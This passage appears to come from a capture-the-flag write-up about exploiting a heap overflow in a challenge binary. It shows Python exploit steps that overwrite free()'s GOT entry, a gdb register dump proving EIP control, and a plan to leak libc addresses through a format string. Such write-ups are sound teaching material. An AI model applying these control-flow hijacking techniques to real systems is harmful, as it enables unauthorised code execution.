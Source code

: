 ```python

# overwrite free@got with printf
print "[+] replacing free() with printf()"
z(s, 'edit')
z(s, 'b')
z(s, '4')
z(s, 'BBBB')

z(s, 'get')
z(s, 'c')
z(s, '4')
```

This made the binary crash. The coredump reported the following:

```python
#0  0x42424242 in ?? ()
gdb-peda$ i r
eax            0x843b0c8    0x843b0c8
ecx            0x843b0c8    0x843b0c8
edx            0x4  0x4
ebx            0xb779cff4   0xb779cff4
esp            0xbf95245c   0xbf95245c
ebp            0xbf952498   0xbf952498
esi            0x0  0x0
edi            0x0  0x0
eip            0x42424242   0x42424242
eflags         0x10207  [ CF PF IF RF ]
cs             0x73 0x73
ss             0x7b 0x7b
ds             0x7b 0x7b
es             0x7b 0x7b
fs             0x0  0x0
gs             0x33 0x33
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7636060 <system>
gdb-peda$ x/4x $esp
0xbf95245c: 0x08048bb8  0x0843b0c8  0x0843b0c8  0x00000004

gdb-peda$ x/4x $eax
0x843b0c8:  0x43434343  0x00000000
```

Bloody awesome! We not only have control over EIP, but also eax, ecx and the first argument on the stack point to memory that we control. This will come in handy later.

Turning the heap overflow into a format string vulnerability
---

With what should I overwrote the got pointer to `free()` though? I looked for ROP gadgets, but there weren't enough to pivot the stack into the heap and spawn a shell, or open/read/write the flag to stdout. Furthermore, I assumed ASLR was enabled so I had to leak libc addresses first. 
